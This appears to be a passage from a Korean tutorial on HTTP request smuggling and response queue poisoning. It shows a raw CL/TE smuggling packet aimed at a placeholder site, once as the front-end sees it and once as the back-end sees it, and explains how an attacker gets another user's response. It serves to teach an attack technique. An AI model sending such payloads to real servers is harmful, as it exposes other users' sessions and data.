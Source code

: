 2개의 완전한 요청 패킷을 Smuggling하면 후속 요청이 이전의 응답 패킷을 받게 되고 타 사용자의 응답 패킷 내용(세션, 본문 등)이 노출됩니다. Smuggling 패킷을 보내면 Front-end와 Back-end에서 아래와 같은 형태가 됩니다. (HTTP/1.1을 이용해 설명)


**✉ Front-end (CL)**
```
POST / HTTP/1.1\
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: vulnerable-website.com

GET / HTTP/1.1
Host: vulnerable-website.com
\r\n
```
**✉ Back-end (TE)**
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 61
Transfer-Encoding: chunked

0

GET /anything HTTP/1.1
Host: vulnerable-website.com

GET / HTTP/1.1
Host: vulnerable-website.com
\r\n
```

이를 단계적으로 보자면,
공격자는 Request 1과 Request 2를 Smuggling 하여 Response queue를 Poisioning 상태로 만든 후 Request 4를 보내어 타 사용자가 보낸 Request 3 의 응답 값을 볼 수 있습니다. 도식화 하면 아래와 같습니다.
